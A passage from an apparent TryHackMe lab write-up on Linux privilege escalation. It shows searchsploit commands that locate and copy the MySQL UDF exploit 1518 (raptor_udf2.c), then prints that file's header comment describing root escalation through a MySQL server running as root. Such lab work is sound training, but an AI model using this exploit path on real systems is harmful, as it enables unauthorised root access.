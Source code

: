 # LinuxPrivEsc
----
## Service Exploits

**Famous Mysql Exploit**

```sh
┌──(******㉿kali)-[~/CTF{}/THM/linuxPrivEsc]
└─$ searchsploit MySQL 4.x/5.0      
----------------------- ---------------------------------
 Exploit Title         |  Path
----------------------- ---------------------------------
MySQL 4.x/5.0 (Linux)  | linux/local/1518.c
MySQL 4.x/5.0 (Windows | windows/remote/3274.txt
----------------------- ---------------------------------
Shellcodes: No Results
                                                         
┌──(******㉿kali)-[~/CTF{}/THM/linuxPrivEsc]
└─$ searchsploit -m 1518      
  Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
      URL: https://www.exploit-db.com/exploits/1518
     Path: /usr/share/exploitdb/exploits/linux/local/1518.c
    Codes: N/A
 Verified: True
File Type: C source, ASCII text
Copied to: /home/******/CTF{}/THM/linuxPrivEsc/1518.c


```

**`raptor_udf2.c`**

```c
─$ cat 1518.c    
/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * This is an helper dynamic library for local privilege escalation through
 * MySQL run with root privileges (very bad idea!), slightly modified to work
 * with newer versions of the open-source database. Tested on MySQL 4.1.14.
 *
 * See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 *
 * Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 * for the security vulnerabilities in the handling of User Defined Functions
 * (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 * details, please refer to:
 *
 * http://dev.mysql.com/doc/refman/5.0/en/udf-security.html
 * http://www.wisec.it/vulns.php?page=4
 * http://www.wisec.it/vulns.php?page=5
 * http://www.wisec.it/vulns.php?page=6
 *
 * "UDFs should have at least one symbol defined in addition to the xxx symbol
 * that corresponds to the main xxx() function. These auxiliary symbols
 * correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and
 * xxx_add() functions". -- User Defined Functions Security Precautions
 *
 * Usage:
 * $ id
```